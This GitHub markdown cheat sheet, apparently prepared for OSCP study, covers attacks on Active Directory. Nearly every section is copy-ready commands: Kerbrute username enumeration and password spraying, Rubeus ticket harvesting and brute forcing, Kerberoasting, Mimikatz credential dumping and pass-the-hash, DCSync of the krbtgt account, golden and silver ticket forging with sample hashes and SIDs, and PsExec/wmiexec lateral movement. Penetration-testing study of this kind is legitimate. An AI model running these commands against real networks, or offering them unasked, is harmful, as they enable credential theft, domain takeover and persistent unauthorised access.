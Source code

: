   - [Kerbrute]
  - [Rubeus]
  - [Roasting]
  - [Mimikatz](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#mimikatz)
  - [Lateral Movement](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#lateral-movement)

# Kerbrute

```./kerbrute_linux_amd64 userenum -d $DOMAIN -dc $DOMAIN_CONTROLLER usernames.txt```

```./kerbrute_linux_amd64 -domain $DOMAIN -users usernames.txt -passwords passwords.txt -outputfile Output_File```

# Rubeus

```Rubeus.exe harvest /interval:30```

```Rubeus.exe brute /password:$PASSWORD /noticket```

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

# Roasting

```Rubeus.exe kerberoast/asreproast```

```john hash.txt```

# Mimikatz
https://adsecurity.org/?page_id=1821

#### Turn an NTLM into a TGT:
```
mimikatz#> 
privilege::debug
sekurlsa::logonpasswords
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```

```
Klist
Net use //dc1
Klist
```

PSEXEC to DC - 
```.\PsExec.exe \\dc01 cmd.exe```

#### DCSync Attack:
```lsadump::dcsync /user:Administrator```
```lsadump::dcsync /user:domain\krbtgt```


#### Golden:
Jump to DC to dump krbtgt hash:

```psexec.exe \\dc01 cmd.exe```

```
Privilege::debug
lsadump::lsa /patch
```

Now can create a Golden Ticket:
```
Kerberos::purge
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-
2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

```
misc::cmd
psexec.exe \\dc01 cmd.exe
```

#### Silver:

Get domain SID  - ```Whoami /user```

```
kerberos::list
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

#### MAINTENANCE
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
```

#### Invoke Mimikatz

Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'

# Lateral Movement
```PsExec.exe -accepteula \\$HOSTNAME cmd```

```psexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```smbexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```wmiexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

